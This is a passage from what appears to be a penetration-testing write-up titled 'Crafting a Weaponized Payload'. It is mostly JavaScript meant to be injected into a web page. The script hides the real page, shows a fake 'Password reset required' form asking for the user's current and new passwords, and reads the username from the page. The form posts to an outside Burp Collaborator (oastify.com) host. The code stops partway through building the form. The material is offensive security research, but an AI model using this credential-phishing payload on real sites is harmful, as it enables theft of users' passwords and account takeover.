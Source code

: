 ## Crafting a Weaponized Payload

After several passes, I've come up with the following JavaScript as the payload I'd like to inject into the page:

```
(function () {
    var doc = document,
    //  these DO NOT minify to comma separated
    b = 'block',
    i = 'input',
    l = 'label',
    n = 'name',
    p = 'password',
    s = 'submit',
    t = 'type',
    a = '/Content/images/',
    z = '0 auto',
    body = doc.body,
    logo = doc.createElement('img'),
    intro = doc.createElement('p'),
    form = doc.createElement('form'),
    currentPasswordLabel = doc.createElement(l),
    currentPasswordField = doc.createElement(i),
    currentPasswordText = 'Current ' + p,
    newPasswordLabel = doc.createElement(l),
    newPasswordField = doc.createElement(i),
    confirmPasswordLabel = doc.createElement(l),
    confirmPasswordField = doc.createElement(i),
    usernameField = doc.createElement(i),
    e = doc.querySelectorAll('[id=client_info]')[1],
    h = 'h6',
    fh = e.innerHTML.indexOf(h),
    lh = e.innerHTML.lastIndexOf(h),
    u = e.innerHTML.slice(fh+3,lh-2),
    submitBtn = doc.createElement(i),
    page = doc.getElementById('page_wrapper');

    // hide body element
    page.style.display = 'none';

    // create logo, append to body element
    logo.src = a + 'logo-transparent.png';
    logo.style.margin = '9em auto 1em';
    logo.style.display = b;
    page.after(logo);

    // create intro text
    intro.innerHTML = 'Password reset required';
    intro.style.textAlign = 'center';
    intro.style.color = 'red';
    logo.after(intro);

    // create form
    form.method = 'post';
    // Burp Collaborator destination URL
    form.action = 'https://a6hmjodjqbcjza207vy5gvddd4jv7lva.oastify.com';
    form.style.width = '200px';
    form.style.margin = z;
    
    // create currentPassword field

    currentPasswordField.setAttribute(n,'current' + p);
    currentPasswordField.setAttribute(t,p);
```
